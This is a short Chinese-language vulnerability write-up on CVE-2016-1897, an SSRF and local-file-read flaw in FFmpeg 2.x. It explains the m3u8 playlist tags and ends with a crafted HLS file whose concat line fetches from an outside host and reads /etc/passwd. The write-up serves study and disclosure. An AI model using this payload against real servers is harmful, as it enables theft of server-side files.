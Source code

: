 ```yaml
---
title: （CVE-2016-1897）Ffmpeg ssrf
id: zhfly2938
---
```


# （CVE-2016-1897）Ffmpeg ssrf

## 一、漏洞简介

CVE-2016-1897只能读取文件的第一行

*   #EXTM3U 标签是m3u8的文件头，开头必须要这一行
*   #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
*   #EXT-X-VERSION:2 该标签可有可无
*   #EXTINF:6, 表示该一段TS流文件的长度
*   #EXT-X-ENDLIST 这个相当于文件结束符

## 二、漏洞影响

FFmpeg 2.x

## 三、复现过程

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request Forgery) 恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对concat的支持(https://www.0-sec.org/ffmpeg-protocols.html#concat )来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件如下所示：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://dx.su/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST 
```